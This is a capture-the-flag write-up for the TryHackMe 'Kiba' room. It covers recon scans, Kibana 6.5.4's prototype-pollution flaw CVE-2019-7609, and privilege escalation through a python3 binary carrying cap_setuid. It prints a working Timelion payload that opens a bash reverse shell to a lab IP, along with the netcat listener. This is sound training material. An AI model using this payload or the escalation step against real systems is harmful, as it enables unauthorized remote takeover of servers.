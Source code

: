 <h1 align="center"><a href="https://tryhackme.com/room/kiba">TryHackMe Kiba</a></h1>

<h2 align="center"><a href="https://twitter.com/0xTas">Writeup By: 0xTas</a></h2>

<p align="center">
    <a href="https://tryhackme.com/p/0xTas">
        <img alt="0xTas TryHackMe Profile" src="https://tryhackme-badges.s3.amazonaws.com/0xTas.png"></a>  
</p>


<h3 align="center">15 June 2022</h3>

---

## Description

Identify the critical security flaw in the data visualization dashboard, that allows remote code execution.

---

## Questions

### What is the vulnerability that is specific to programming languages with prototype-based inheritance?

Fairly simple question, easy to Google if needed, but I do have a little bit of experience writing server-side Javascript, so to me this sounds like prototype pollution. <br>

Prototype pollution is a vulnerability that takes advantage of the way that objects in languages like Javascript inherit properties and methods from their "prototype" objects. <br>

Prototype pollution occurs when an attacker can inject malicious code to change the properties and methods of the prototype object itself. <br>
In Javascript, there is a property, "\_\_proto\_\_", which can be used to access the prototype object, and potentially alter its methods. <br>
If an attacker can inject malicious code using the \_\_proto\_\_ property, they can redefine the global methods that apply to all instances of that object, thus polluting the namespace with arbitrary code. <br>
It is also possible to alter properties of objects with Prototype Pollution, as long as the specific instance of the target object does not explicity overwrite this property with its own value, which would override the polluted value. <br>


> Answer: Prototype Pollution

---

### What is the version of visualization dashboard installed in the server?

First I ran a typical scan with Nmap: <br>

`tas@kali$ nmap -vv -sV -sC -p- -T4 kiba.thm -oN nmap/full.log` <br>

> 22/tcp   open  ssh          syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) <br>
> 80/tcp   open  http         syn-ack Apache httpd 2.4.18 ((Ubuntu)) <br>
> 5044/tcp open  lxi-evntsvc? syn-ack <br>
> 5601/tcp open  esmagent?    syn-ack <br>

So we're dealing with SSH, a webserver, and a couple of services that I don't recognize right away. <br>

First I visited the homepage of the webserver. It was mostly blank with ASCII art of what looked like a moth or butterfly, and the words "Welcome, 'Linux Capabilities' is very interesting.". <br>

Indeed they are, but this wasn't going to help me right this second. Checking the source, I confirmed that there was nothing else interesting on this index.html page. <br>

I decided to run a Nikto and Gobuster scan on the webserver while I manually checked out those other 5XXX ports. <br>

`tas@kali$ nikto -h http://kiba.thm` <br>

`tas@kali$ gobuster dir -u http://kiba.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt` <br>

While those scans were running, I tried navigating to the service on port 5044 with my browser, but received a "ERR_CONNECTION_RESET" response. <br>

Next I tried to connect with netcat, but this failed as well: <br>

`tas@kali$ nc -nv $IP 4055` <br>

![Netcat Connection Refused](https://i.imgur.com/aQNNUVI.png)

After this I moved on to checking the service running on port 5601, and it brought me to an actual webpage at '/app/kibana' that appeared to be a dashboard for a product called Kibana. <br>

![Kibana Dashboard](https://i.imgur.com/FKeUOfA.png)

Poking around the dashboard for a little bit, I was able to find a version disclosure on the management tab: <br>

![Kibana Dashboard Version](https://i.imgur.com/8aKKBjh.png)

<details>
    <summary>Kibana Version</summary>

> Answer: Version 6.5.4
</details>

---

### What is the CVE number for this vulnerability?

Searching on Google for "kibana prototype pollution exploit", I was immediately able to indentify the CVE. <br>

<details>
    <summary>CVE Number</summary>

> Answer: CVE-2019-7609
</details>

---

### Compromise the machine and locate user.txt

Following through with my Google search, I read from a couple different resources to learn more about this vulnerability, and how to exploit it. <br>

The vulnerability is in the Timelion Data Visualizer, but also involves the Canvas Workpads module.
Basically, when you load the canvas tab, Kibana attempts to start a new NodeJS process in the background.
This was taken advantage of, but the most direct path to RCE via a "--eval" statement was not allowed, so [the researcher](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/) who discovered this exploit had to get creative.
They found that by using prototype pollution in the Timelion visualizer to inject an environment variable containing valid Javascript syntax, they could force NodeJS
to load those environment variables by using the "--require" option instead. 
Since on Linux, the file "/proc/self/environ" contains these environment variables, when the attacker opens the canvas after polluting them with their malicious Javascript code,
the new Node process that spawns would include the malicious environment variable and execute the code within. <br>

Unfortunately, I couldn't get the PoC payload from this researcher's article to function properly in this situation, but I found an [alternative payload on Github](https://github.com/mpgn/CVE-2019-7609). <br>
```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.2.2.70/7777 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

So, using the payload with working syntax, I navigated to the Timelion visualizer and pasted it in, making sure to click the "run" button to the right. <br>

![TimeLion Visualizer Payload](https://i.imgur.com/hVfJmWB.png)

Next I made sure to start a netcat listener with bash in my terminal: <br>

`tas@kali$ nc -lnvp 7777` <br>

And then I clicked on the canvas tab in the Kibana Dashboard. <br>

![Kibana Canvas loading with exploit](https://i.imgur.com/NloT6vi.png)

At that moment, I caught a shell on the server: <br>

![Kibana RCE Reverse Shell](https://i.imgur.com/N3I2oyV.png)

I was able to locate user.txt in /home/kiba. <br>

> Answer: THM{1s_**************************}

---

### How would you recursively list capabilities for Linux binaries?

For this question I referenced my notes on Linux enumeration and privilege escalation: <br>

![Linux Capabilities Info](https://i.imgur.com/OmRlh78.png)

<details>
    <summary>List Linux Capabilities</summary>

You can list enabled capabilities with `getcap -r /`. <br>
Running the command without root privileges causes many errors, so you should generally append `2>/dev/null` to suppress them. <br>

> Answer: getcap -r /
</details>

---

### Escalate privileges and obtain root.txt

I ran the command to list interesting capabilities: <br>

![getcap -r / Output](https://i.imgur.com/YbEc7FZ.png)

Right away the python3 entry stood out to me, especially because it was in a folder named ".hackmeplease". <br>

The binary had cap_setuid enabled, so I headed to [GTFOBins](https://gtfobins.github.io/gtfobins/python/) to learn how we might exploit this. <br>

![GTFOBins Python Capabilities](https://i.imgur.com/zlqNwaM.png)

By using the OS module to change the UID of the Python process with `os.setuid(0)`, we can spawn a privileged shell with `os.system`. <br>

I navigated into the .hackmeplease directory, and carried out the escalation process: <br>

![Python Capabilities Privilege Escalation](https://i.imgur.com/wCV2wIR.png)

It worked, and from there I was able to retrieve the flag from root.txt. <br>

> Answer: THM{pr1v1lege_*****************************}

---

